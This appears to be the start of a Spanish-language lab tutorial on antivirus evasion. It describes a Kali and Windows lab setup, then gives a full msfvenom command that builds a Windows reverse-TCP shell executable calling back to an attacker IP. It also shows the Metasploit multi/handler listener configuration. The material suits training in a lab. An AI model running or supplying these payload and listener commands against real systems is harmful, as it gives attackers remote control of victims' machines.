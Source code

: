 ```yaml
---
icon: virus-covid-slash
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión de antivirus con C - Parte 1

En este caso vamos a utilizar `kali` como nuestra maquina de atacante, pero tambien vamos a utilizar el `Windows` que instalamos para el `Active Directory` en concreto la maquina `WS01` como nuestra maquina atacante tambien, para poder realizar el codigo en `C#` con nuestro `Visual Studio`, por lo que tendremos `2` maquinas atacantes, para ello tendremos que desactivar el `Windows Defender` en la maquina de `WS01` ya que es nuestra maquina atacante.

Pero la maquina de `Windows` en concreto la `WS02` actuara como la maquina victima en este caso, para poder realizar las pruebas de evasion de `antivirus`.

Estas tecnicas que vamos a ver no solo sirve para evadir antivirus de `Windows Defender`, tambien sirve para casi cualquier antivirus que se tenga en un equipo.

Vamos a crear un `malware` con `msfvenom` que posiblemente sea el binario mas detectado para casi cualquier antivirus ya que lo genera la herramienta `msfvenom` y con este podremos ver como evadir esa seguridad.

```shell
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.5.205 LPORT=7777 -f exe > shell.exe
```

Y en otra terminal, vamos a estar a la escucha mediante `metasploit`:

```shell
msfconsole -q
```

Despues seleccionamos la escucha:

```shell
use multi/handler
```

Ahora lo configuramos de la siguiente forma:

```shell
set payload windows/shell/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```
